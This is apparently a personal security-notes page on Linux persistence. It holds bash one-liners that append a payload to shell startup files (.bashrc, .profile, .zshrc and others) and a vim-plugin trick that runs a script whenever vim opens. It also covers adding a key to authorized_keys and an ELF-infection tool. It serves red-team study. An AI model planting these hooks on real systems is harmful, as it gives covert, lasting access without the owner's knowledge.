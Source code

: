 ```yaml
---
title: Linux Persistence
---
```


[[notes/mitre-attack/persistence]] on [[notes/linux/index]].

Untested tools:

- [dt_infect](https://github.com/elfmaster/dt_infect), modify ELF binary to load additional shared object

# SSH

Append your own public key to `~/.ssh/authorized_keys`.

# Shell Profiles

Add a payload into one of the shell config files.
The command will be executed when the user opens an interactive shell (e.g. after login).

~~~ bash
echo $payload >> ~/.profile
echo $payload >> ~/.bashrc
echo $payload >> ~/.bash_profile
echo $payload >> ~/.zshrc
echo $payload >> ~/.zprofile
~~~

# Editors

Add a `vim` plugin to execute a command when `vim` is opened.

~~~ bash
mkdir -p ~/.vim/plugin && echo $payload > ~/.vim/plugin/yy.sh && echo 'silent !source ~/.vim/plugin/yy.sh' > ~/.vim/plugin/yy.vim
~~~
